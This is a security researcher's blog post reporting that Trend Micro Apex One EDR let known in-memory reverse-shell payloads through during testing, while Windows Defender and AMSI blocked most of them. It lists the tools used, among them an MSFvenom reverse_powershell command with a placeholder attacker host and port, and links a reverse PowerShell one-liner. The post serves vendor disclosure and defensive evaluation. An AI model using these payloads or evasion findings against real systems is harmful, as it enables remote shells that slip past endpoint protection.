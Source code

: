 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# The Troubled Tale of Trend Micro
___________________________________

# Background
Imagnie, if you will, that your orginization utilizes a well known and 'trusted' Enterprise grade endpoint detection and response solution. Furthermore, imagine that you discover a way to bypass this solution, but to your horror a couple of seriously glarring issues come to the forefront: 
1. The EDR solution can be byapssed using simple or even very basic payloads. 
2. The EDR solution can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.
3. A solution, update, signature, whatever still hasn't been deployed to clients despite working months on end with back-end engineers and other team members part of the vendor and providing beyond adequate information to help them.

Now, I'm a bit skeptical when it comes to AV and EDR solutions. One often hears sale reps tout about how great their product is. How it will *'block everything'*, *'prevent breaches'*, and blah, blah, blah. Obviously, a product like this isn't going to prevent bleeding edge methods or techniques that are used to get around them. The same goes for customized payloads. Heck, the simple reverse PowerShell script I wrote back in March surprisingly still gets around Defender and AMSI in Windows 10 build 1903. What I'm trying to get at, is that the art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know a much more than I do when it comes to this type of stuff. 

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of low privilege access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR soluitions. As expected, it was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## PowerShell Empire
![PSE](Post%20Images/bypass_may8th_2019.jpg)
![PSE_June](Post%20Images/ao_pse.jpg)

# MSFVenom cmd/windows/reverse_powershell
![MSFvenom_Kai](Post%20Images/msfv_rpsh_kali.jpg)
![MSFvenom_Win](Post%20Images/msfv_rpsh_win.jpg)

I noticed an anomoly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjuntion with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not is is harmful. In this case it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite occurs when planting the base64 encoded PowerShell payload generated from the launcher command in Empire PowerShell. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is stopped by Apex One.

Before you ask, yes I did checking the settings in the administration console. I double checked, triple checked, checked again and then had a short existential crisis episode. Other collegaues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off and check again by now if it was something on my end. 

![bms](Post%20Images/BMS.PNG)
![scs](Post%20Images/SCS.PNG)

After countless emails back and forth, a couple of phone calls later and a handful of updates pushed out, the problem still persists. I first notified Trend of the issue back in Feburary and it is now June. I should point out that we were at a point in the process in which we were able to get Apex One to succesfully block anything from PowerShell Empire. However, this glimer of hope only lasted for a short period of time. I tried throwing some stuff at Apex One a couple of days later with PowerShell Empire to test for consistency and of course it was once again letting the launcher payload through.

# A Shockng Revelation
During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. 

![winver](Post%20Images/winver.PNG)

The results shocked me to say the least. You'd think a free, built-in AV that comes with Windows would be absolute crap, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 was able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the github link. 

![Github One-liner](Post%20Images/amsi_github_oneliner.PNG)

However, I was able get around it using my custom reverse PowerShell script (this was expected) and using silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't recived a message from AMSI or Defender saying something malicous was going on. However, I recieved an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. To make sure I wasn't go insane and to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and peform the same tests. Again, Defender stopped what Apex One couldn't.

# Conclusion
You defitnely know you have a problem when an AV included in almost every single version of Windows 10 does much better job than the other solution that has had research and development with fancy (or gimmicky) features like machine learing, poured into it. Again, there's no perfect AV and EDR or all-in-one solution that will catch ever single thing including bleeding edge tactics and manuvers. However, if you're going to make people and orginization pay for your product then it better be able to react to the most basic malicious payloads and exploitation frameworks. Especially, if they've been publicy available for a while and allow you to tear the source code apart to figure out how it works.
